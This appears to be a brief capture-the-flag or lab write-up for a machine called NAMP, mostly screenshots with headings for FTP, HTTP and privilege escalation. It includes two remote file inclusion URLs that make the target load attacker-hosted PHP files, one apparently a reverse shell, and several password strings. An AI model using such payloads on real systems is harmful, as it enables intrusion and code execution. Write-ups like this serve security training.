## NAMP



## 21 FTP



## 80 HTTP





`http://192.168.165.58/image.php?img=http://192.168.45.153/cat.php`

`http://192.168.165.58/image.php?img=http://192.168.45.153/rev.php`



## Privilege Escalation
`MalapropDoffUtilize1337`









`MobilizeHissSeedtime747`
`OverallCrestLean000`
`HockSydneyCertify123`









